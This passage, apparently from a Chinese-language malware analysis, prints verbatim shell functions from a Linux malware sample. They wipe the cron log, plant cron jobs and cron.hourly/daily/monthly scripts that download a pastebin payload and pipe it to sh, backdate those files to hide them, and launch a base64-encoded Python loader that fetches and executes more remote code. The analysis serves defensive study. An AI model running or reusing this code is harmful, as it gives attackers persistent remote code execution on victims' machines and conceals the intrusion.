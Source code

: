 ```
	echo 0>/var/log/cron
fi
```

首先检查是否有更新，有更新就会执行 echocron 方法进行更新。

```bash
function echocron() {
	echo -e "*/10 * * * * root (curl -fsSL https://pastebin.com/raw/5bjpjvLP || wget -q -O- https://pastebin.com/raw/5bjpjvLP)|sh\n##" > /etc/cron.d/root
	echo -e "*/17 * * * * root (curl -fsSL https://pastebin.com/raw/5bjpjvLP || wget -q -O- https://pastebin.com/raw/5bjpjvLP)|sh\n##" > /etc/cron.d/system
	echo -e "*/23 * * * *	(curl -fsSL https://pastebin.com/raw/5bjpjvLP || wget -q -O- https://pastebin.com/raw/5bjpjvLP)|sh\n##" > /var/spool/cron/root
	mkdir -p /var/spool/cron/crontabs
	echo -e "*/31 * * * *	(curl -fsSL https://pastebin.com/raw/5bjpjvLP || wget -q -O- https://pastebin.com/raw/5bjpjvLP)|sh\n##" > /var/spool/cron/crontabs/root
	mkdir -p /etc/cron.hourly
	curl -fsSL https://pastebin.com/raw/5bjpjvLP -o /etc/cron.hourly/oanacron && chmod 755 /etc/cron.hourly/oanacron
	if [ ! -f "/etc/cron.hourly/oanacron" ]; then
		wget https://pastebin.com/raw/5bjpjvLP -O /etc/cron.hourly/oanacron && chmod 755 /etc/cron.hourly/oanacron
	fi
	mkdir -p /etc/cron.daily
	curl -fsSL https://pastebin.com/raw/5bjpjvLP -o /etc/cron.daily/oanacron && chmod 755 /etc/cron.daily/oanacron
	if [ ! -f "/etc/cron.daily/oanacron" ]; then
		wget https://pastebin.com/raw/5bjpjvLP -O /etc/cron.daily/oanacron && chmod 755 /etc/cron.daily/oanacron
	fi
	mkdir -p /etc/cron.monthly
	curl -fsSL https://pastebin.com/raw/5bjpjvLP -o /etc/cron.monthly/oanacron && chmod 755 /etc/cron.monthly/oanacron
	if [ ! -f "/etc/cron.monthly/oanacron" ]; then
		wget https://pastebin.com/raw/5bjpjvLP -O /etc/cron.monthly/oanacron && chmod 755 /etc/cron.monthly/oanacron
	fi
	touch -acmr /bin/sh /var/spool/cron/root
	touch -acmr /bin/sh /var/spool/cron/crontabs/root
	touch -acmr /bin/sh /etc/cron.d/system
	touch -acmr /bin/sh /etc/cron.d/root
	touch -acmr /bin/sh /etc/cron.hourly/oanacron
	touch -acmr /bin/sh /etc/cron.daily/oanacron
	touch -acmr /bin/sh /etc/cron.monthly/oanacron
}
```

检查 /tmp/.tmph 文件是否存在，如果存在则删除，执行 python 函数。
```bash
function python() {
	nohup python -c "import base64;exec(base64.b64decode('I2NvZGluZzogdXRmLTgKaW1wb3J0IHVybGxpYgppbXBvcnQgYmFzZTY0CgpkPSAnaHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L2VSa3JTUWZFJwp0cnk6CiAgICBwYWdlPWJhc2U2NC5iNjRkZWNvZGUodXJsbGliLnVybG9wZW4oZCkucmVhZCgpKQogICAgZXhlYyhwYWdlKQpleGNlcHQ6CiAgICBwYXNz'))" >/dev/null 2>&1 &
	touch /tmp/.tmph
}
```
